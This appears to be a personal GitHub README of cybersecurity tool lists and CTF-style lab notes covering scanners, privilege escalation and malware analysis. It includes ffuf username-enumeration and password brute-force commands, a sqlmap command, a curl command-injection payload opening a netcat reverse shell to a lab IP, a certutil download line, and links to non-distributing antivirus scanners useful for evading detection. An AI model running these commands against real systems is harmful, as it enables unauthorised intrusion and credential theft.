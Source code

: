 # CyberSecResources
List of tools/resources for Cybersecurity
## Resources
- https://github.com/khanhnnvn/CEHv10/blob/master/Labs/CEHv10%20Module%2006%20System%20Hacking.pdf

## Websites
### Web Scanner
  - Burpsuite
  - OWASP ZAP
  - Vega
  - nmap
  - nikto
  - uniscan
  - ffuf
    - ``` ffuf -w /path/to/wordlist -u https://target/FUZZ ```
    - ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/signup -mr "username already exists" ```
    - ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/login -fc 200 ```
  - ```sqlmap -u "http://example.com/login.php" --data "username=admin&password=test" --dbs```
  - PHP Filter Chaining (https://github.com/synacktiv/php_filter_chain_generator/tree/main)
    - How to use? https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
  - sudo mount -t cifs //target-IP/cyberq /mnt/cyberq -o guest

### Spiders & Path Traversal
- OWASP ZAP
- Burpsuite

## Privilege Escalation
### Linux
- LinPeas https://github.com/peass-ng/PEASS-ng
- DirtyCow https://github.com/firefart/dirtycow // https://github.com/firefart/dirtycow/blob/master/dirty.c
- linux-exploit-suggester
- https://www.revshells.com/
- Encode payload in URL
-     ```curl -s 'http://10.10.7.56/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.186 4443 >/tmp/f;'```
  
### Windows
- BeRoot.exe
- WinPeas https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- PowerUp.ps1


## Enumerate OS
- nmap
- enum4linux

## Find Exploit-db Exploits commands line
- searchsploit

## Malware Analysis
### Offline Malware Analysis

#### Static

##### File Fingerprinting
- MD5/SHA2 Message Digest 

##### String Search
- PE Studio
- FLOSS (Fire Eye) 
- Strings (Microsoft) 
- BinText

##### Packing/Obfuscation
- PEid (Find must common crypters, compilers and packer)
- DIE (Detect it Easy for ELF Malware)

##### Portable Executable information
- PE Explorer (EXE, ActiveX, DLL)

##### Identifying File Dependency
- Dependency Walker
- Virus Total

##### Malware Disassembly 
- IDA Pro
- Ghidra
- OllyDbg

### Malware Analysis Online
- https://hybrid-analysis.com/
- https://www.virustotal.com/
- https://whois.domaintools.com
https://toolbar.netcraft.com/site_report?url
- https://www.robtex.com
knockpy To discover subdomains

No Distribution of results
- https://nodistribute.com/ # Preferred
- https://antiscan.me/
- https://www.virscan.org/language/en/ # Not tested
- https://spyralscanner.net/

### Additional
- Cuckoo sandbox
- Virusshare.com
- Malware traffic analysis
- certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe
